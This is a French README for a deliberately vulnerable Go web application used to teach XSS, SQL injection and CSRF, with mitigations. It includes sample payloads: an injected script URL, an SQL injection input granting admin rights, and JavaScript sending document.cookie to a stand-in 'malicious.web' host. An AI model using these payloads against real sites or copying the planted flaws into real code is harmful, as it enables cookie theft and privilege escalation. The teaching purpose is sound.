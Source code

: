 # pwn
C'est un petit projet fait en Go bien sympa mais pleins de failles :)

![Screen](docs/screen.png)

# Quickstart

### Dependencies
```bash

docker
// or go >=1.16
```

### Startup
```bash
# Docker
docker-compose up 
// docker compose up

// OR
# Go
go mod download
go build -o ./main.go
./main.go
```

### Users
```
# Admin
username  jane
username  password

# User
Petra:
username  petra
password  password
```

# Cross-Site Scripting (XSS)
Le XSS  est un type de faille de sécurité de sites internet. Le but est simplement de pouvoir attaquer une système à l'aide de scripts (JavaScript par exemple).

Dans notre cas, Go est plutôt bien armé pour éviter l'injection de scripts.

```go
// Safe
userId := url.Query().Get("uid")
```

Cette méthode permet de récupérer la valeur d'un paramètre d'une requête de façon sécurisé. Les `;` ou autres caractères sont échappés automatiquement.

La méthode `url.QueryUnescape()` permet de récupérer tous les paramètres de l'URL sans échappement.

## Failles ([Ici](https://github.com/pmlogist/pwn/blob/331363b757510c8374fe94749f862ffac43b7bf3/routes.go#L85-L93))

Dans l'application, un script peut être exécuté grace à ce code.
L'exécution de scripts comme `http://foo.bar/baz?id=<script>fetch(...)</script>` est alors possible.

## Mitigations

Comme précisé ci-dessus, une attaque XSS est motigé a l'aide de plusieurs méthodes du package `url`.
```go
foo := url.FormData("foo")
bar := url.Query().Get("foo")
// ...
```
Ces méthodes échappent la majorité des caractères et de plus les strings sont encodés au format URL. L'exécution de script est impossible dans ce cas-là.

Il faudrait préférer l'envoi de formulaire avec une méthode `POST` et récupérer les champs avec le body envoyé par la requête.
De plus, il faudrait assainir les paramètres URL et les inputs pour en éviter l'injection de scripts malicieux et de les exécuter.

# SQL Injection (SQLI)

L'injection SQL un type d’attaque discrète dans laquelle le pirate insère son propre code dans un site web afin de contourner ses mesures de sécurité et d’accéder à des données protégées.

Elle peut se faire de plusieurs manières :
- De la même manière de pour XSS, les `query params`
- En modifiant `value` des inputs en HTML
- En modifiant le `body` d'une requête
  

## Failles ([Ici](https://github.com/pmlogist/pwn/blob/331363b757510c8374fe94749f862ffac43b7bf3/repository.go#L111-L112))

Il est possible de réaliser une injection SQL à partir des divers `<input />` utilisés pour interagir avec les différentes routes.      

Dans notre application, le package standard `sql` de Go avec le driver `sqlite` ne permet
pas d'exécuter deux requêtes en simultanés. Cela ne change pas le fait l'injection SQL est possible et que les envois de requêtes SQL malicieuses sont envoyés à la base de données.  

Par exemple:
```html
<input value="2';UPDATE users SET is_admin = true WHERE id = '...';" hidden>
```

## Migitations

Il faut assainir les inputs comme pour éviter le XSS.
Cependant, cela ne suffit pas totalement. Il faut aussi éviter l'exécution de scripts malicieux.
Il est possible en SQL de preparer les requetes et de les verifier avant de les exécuter.
Cela permet de conserver l'intégrité des données si une requete malicieuse s'infiltre.


# Cross-Site Request Forgery (CSRF)
C'est un type d'attaque qui se produit quand un site Web, un blog, un e-mail, un message instantané ou une application Web malveillant(e) oblige le navigateur Web d'un utilisateur à effectuer des opérations indésirables, sur un site de confiance où l'utilisateur est actuellement authentifié.

Notre application est protégée avec :
- un token `x-csrf` stocké dans un cookie.
- l'identifiant de l'utilisateur stocké dans un cookie.


Un token csrf est :
- Générer à chaque requête
- Stocké en mémoire et envoyé en cookie à chaque requête
- Vérifié à chaque requête


## Failles ([Ici](https://github.com/pmlogist/pwn/blob/331363b757510c8374fe94749f862ffac43b7bf3/middleware.go#L19-L24))

Même si notre système de token csrf fonctionnne, il reste assez rudimentaire.

Notre cookie est accessible avec du JavaScrit (XSS)
```javascript
// http://foo.bar/baz?=<script>script</script>
console.log(
    fetch("http://malicious.web", {
        method: "POST,
        body: JSON.stringify({cookies: document.cookie}),
        headers : {"Content-Type": "application/json" },
    });
);
```

Par exemple, en utilisant du XSS, un lien malicieux pourrait être envoyé à un administrateur et permettrait de récupérer son cookie x-csrf et de faire une requête en son nom (avec son uid en cookie) 

## Mitigations
Un système de cookie est possible dans une application destinée à la production. Cependant il faut faire attention aux informations stockées car les cookies sont envoyés à chaque requête. Afin de sécuriser le cookie, les paramètres doivent être ajouté:
- `httpOnly` pour ne pas pouvoir interagir avec le cookie sur le frontend
- `MaxAge` pour expirer le cookie

```go
c := &http.Cookie{
		Name:     "x-csrf",
		Value:    randomString,
		Path:     "/",
		HttpOnly: true,
        MaxAge:   3000
	}
```
